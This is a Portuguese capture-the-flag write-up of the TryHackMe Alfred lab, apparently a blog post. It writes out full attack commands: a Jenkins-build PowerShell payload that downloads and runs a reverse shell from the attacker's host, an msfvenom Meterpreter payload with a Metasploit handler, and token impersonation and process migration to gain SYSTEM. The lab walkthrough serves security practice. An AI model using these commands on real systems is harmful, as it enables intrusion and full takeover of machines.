

O laboratório Alfred do TryHackMe simula um ambiente Windows corporativo com Jenkins exposto, permitindo a prática de técnicas de enumeração, exploração de execução remota de comandos, obtenção de shell reverso, troca de shells e escalonamento de privilégios. O objetivo é obter acesso administrativo e capturar as flags do usuário e do sistema.
O primeiro passo foi realizar uma varredura de portas e serviços utilizando o nmap:
nmap -v -Pn -sV MACHINE_IP
Ao acessar a página web padrão encontramos o texto: “RIP Bruce Wayne Donations to alfred@wayneenterprises.com are greatly appreciated.”

Explorando outras portas, identificamos o Jenkins rodando na porta 8080.

Com uma simples "tentativa e erro" é possível acessar o Jenkins utilizando credenciais simples (usuário e senha padrão).

Verifiquei o histórico e os conteúdos do projeto, mas não havia nada.


Explorando a opção Configure de um projeto, encontramos algo interessante, uma funcionalidade que parece permitir que comandos sejam executados.

Para obter uma shell reversa, preparamos o ambiente local com um servidor HTTP e um listener netcat:
python3 -m http.server
nc -lvnp 4545


No campo de execução de comandos do Jenkins, inserimos um payload PowerShell para baixar e executar um script de shell reverso:
powershell iex (New-Object Net.WebClient).DownloadString('http://SEU_IP:PORTA/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress SEU_IP -Port PORTA

Após configurar o comando, clicamos em Build Now para executar o payload.

O servidor HTTP registra a requisição do arquivo PowerShell, confirmando a execução do payload.

Com o payload executado, recebemos uma shell reversa na máquina atacante.

Navegando até o Desktop do usuário bruce, encontramos a flag do usuário.

Para obter um shell Meterpreter, geramos um payload com msfvenom:
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=SEU_IP LPORT=PORTA -f exe -o shell.exe
Em seguida, transferimos o payload para a máquina alvo usando PowerShell:
powershell "(New-Object System.Net.WebClient).Downloadfile('http://SEU_IP:PORTA/shell.exe','shell.exe')"
No Kali, iniciamos o Metasploit e configuramos o handler:
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST SEU_IP
set LPORT PORTA
run
Na shell reversa, executamos o payload:
Start-Process "shell.exe"

Para identificar privilégios, utilizamos:
whoami /priv

Carregamos o módulo incognito e listamos os tokens disponíveis:
load incognito
list_tokens -g

Encontrando o token BUILTIN\Administrators, utilizamos:
impersonate_token "BUILTIN\Administrators"

Agora precisamos migrar para um processo do sistema:
ps
migrate PID


Por fim, acessamos o diretório C:\Windows\system32\config para capturar a flag de root.

O lab Alfred é excelente para praticar conhecimentos em exploração de ambientes Windows e pós-exploração.